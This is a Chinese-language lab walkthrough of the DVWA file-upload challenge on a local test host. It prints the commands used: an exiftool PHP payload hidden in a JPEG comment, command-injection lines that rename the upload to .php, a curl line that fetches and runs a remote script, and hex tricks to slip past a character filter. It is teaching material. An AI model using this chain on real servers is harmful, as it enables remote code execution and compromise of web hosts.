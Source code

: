 # File Upload

> Execute any PHP function of your choosing on the target system (such as phpinfo()	or system()) thanks to this file upload vulnerability.

> Once the file has been received from the client, the server will try to resize any image that was included in the request.

改檔案名無效了

我大概會往這幾個個方向思考:

1. 在檔案內動手腳 ([executable image file](https://www.vijayan.in/create-executable-images/) or metadata)
2. 測試看看上傳多個檔案
3. 也許處理檔案的部分的程式或 function, lib 有什麼缺陷

如果要在檔案內動手腳或者找底層缺陷的話，我不太熟所以先跳過 QQ

先挑簡單一點的方式，就是沿用在 medium 時透過 coomand injection 改上傳圖片檔名的方式，之後再來試試擷取 metadata 的方式

修改 metadata 的話有兩個前提要成立:

1. 上傳後 metadata 沒有損壞
2. 上傳後有辦法取出 metadata 的內容並執行它們

想好策略後就可以開始了

## 成功的流程

```markdown
1. use exiftool to add metadata
2. upload file
3. command injection (for renaming file)
```

### use exiftool to add metadata

```bash
exiftool -Comment="<?php phpinfo(); __halt_compiler(); ?>" demo.jpg
```

### upload file

接著上傳 jpg 圖片

```
../../hackable/uploads/demo.jpg succesfully uploaded!
```

觀察上傳後 (位於 DVWA uploads 資料夾內) 的檔案，它的 metadata 也沒有被損毀

目前為止已經上傳惡意檔案，接下來就是想辦法執行這個檔案

可以利用 command line injection 來下指令，這樣就能夠再把上傳的 jpg 檔改成 php 檔 metadata

### command injection (for renaming file)

```bash
'' || cp ../../hackable/uploads/demo.jpg ../../hackable/uploads/demo.php
```

```bash
Go to http://dvwa.localtest/hackable/uploads/demo.php
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/a1b56a4c-6866-47dc-b751-4c19d245f451/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220220%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220220T042142Z&X-Amz-Expires=86400&X-Amz-Signature=53b76340b3bc6dcd2f633d39445b9147552a4829403cbba909227beadb550b95&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

## 失敗紀錄

因為想在 command injection 之後嘗試不同的執行檔案方式，所以多紀錄了這部分 (省略 exiftool 和上傳流程)

因為目標網站上不太可能有 `exiftool` 讓你使用 (當然你有權限的話也可以直接安裝)，所以得自行使用目標網站上現成的 runtime 或指令 e.g: php or bash

### prepare remote file

來驗證一下攻擊是否能成功

先準備一隻提取 metadata 用的腳本 reader.php，並把它存放在遠端

測試看看是否能讀取到 metadata

`reader.php`
```php
<?php
echo "demo.jpg:\n";
$exif = exif_read_data('demo.jpg', 'IFD0');
echo $exif===false ? "No header data found.<br />\n" : "Image contains headers<br />\n";

$exif = exif_read_data('demo.jpg', 0, true);
echo "meta data:\n";
foreach ($exif as $key => $section) {
    foreach ($section as $name => $val) {
        echo "$key.$name: $val\n";
    }
}
?>
```

確認有讀取到 comment

```markdown
php reader.php 
```

```php
demo.jpg:
Image contains headers<br />
meta data:
FILE.FileName: demo.jpg
FILE.FileDateTime: 1645256596
FILE.FileSize: 56651
FILE.FileType: 2
FILE.MimeType: image/jpeg
FILE.SectionsFound: ANY_TAG, IFD0, COMMENT, EXIF
COMPUTED.html: width="548" height="436"
COMPUTED.Height: 436
COMPUTED.Width: 548
COMPUTED.IsColor: 1
COMPUTED.ByteOrderMotorola: 1
IFD0.Orientation: 1
IFD0.XResolution: 96/1
IFD0.YResolution: 96/1
IFD0.ResolutionUnit: 2
COMMENT.0: <?php phpinfo(); ?>
EXIF.ColorSpace: 1
EXIF.ExifImageWidth: 548
EXIF.ExifImageLength: 436
```

之後再修改一下

`reader.php`
```php
<?php
$exif = exif_read_data('demo.jpg', 0, true);
foreach ($exif as $key => $section) {
    foreach ($section as $name => $val) {
        if ($key == "COMMENT") {
            echo $val;
        }
    }
}
?>
```

現在它應該只會輸出一行 `<?php phpinfo(); ?>`

```markdown
php reader.php demo.jpg
```

```markdown
<?php phpinfo(); ?>
```
### command injection

command injection 會移除 `( ) -` ，所以想要透過 command injection 直接寫入檔案會遇到比較多阻礙，因此直接從遠端抓取你已經寫好的擷取 exif 的腳本會比較簡單

所以有不少限制，在嘗試了 php, wget, curl 之後，用 curl 成功下載遠端檔案

```php
Go to http://dvwa.localtest/vulnerabilities/exec/
```

### get remote file

在 command injection 頁面執行下載遠端檔案的指令

```bash
'' || curl "https://gist.githubusercontent.com/vansteki/aebcbf87c927f388ef2b1b0f5275b1bc/raw/729ee503d20a61aa9ece0368f86148bace177f69/readexif.php" > ../../hackable/uploads/reader.php
```

這時 /hackable/uploads/ 內的檔案應該會有 reader.php 和剛剛上傳的圖片

```php
'' || ls ../../hackable/uploads
```

```bash
demo.jpg
dvwa_email.png
reader.php
```

### write file

接著只執行 reader.php，讓它將從圖片 meta data 讀取到的內容輸出到 info.php

```bash
'' || php ../../hackable/uploads/reader.php > ../../hackable/uploads/info.php
```

檢查看看是否有成功輸出 info.php

```bash
'' || ls ../../hackable/uploads
```

```markdown
demo-eval.jpg
demo.jpg
dvwa_email.png
info.php
reader.php
```

執行 info.php

```html
http://dvwa.localtest/hackable/upload/info.php
```

疑 畫面空白 哭啊 輸出失敗 QQ

因為 command injection 有過濾的關係，輸出內容有 `( )`

可以試試看用 hex

```bash
echo "\x28 \x29"
// ( )
```

```bash
exiftool -Comment="<?php phpinfo\x28 \x29; ?>" demo.jpg
```

- To Hex - CyberChef
[https://gchq.github.io/CyberChef/#recipe=To_Hex('\\x',0)&input=PD9waHAgcGhwaW5mbygpOyA/Pg](https://gchq.github.io/CyberChef/#recipe=To_Hex('%5C%5Cx',0)&input=PD9waHAgcGhwaW5mbygpOyA/Pg)
```bash
'' || echo "\x70\x68\x70\x20\x70\x68\x70\x69\x6e\x66\x6f\x28\x29\x3b\x20\x3f\x3e"
```

一樣會失敗．因為字串會輸出 command line injection，如果其中一段因為過濾噴掉，整個流程就會被中斷，因此要想辦法使用不會被輸出阻礙的方法

只剩下更改檔名最穩

或者是將輸出導到 env 搭配背景執行 ?

感覺很迂迴

另外也可以將輸出和執行的步驟用 `eval()` 簡化，但在這個場景應該一樣會失效

總結攻擊流程:

```markdown
1. use exiftool to add metadata
2. upload file
3. command injection
4. get remote file 
5. write or eval file
```

很華麗的失敗了 ✨
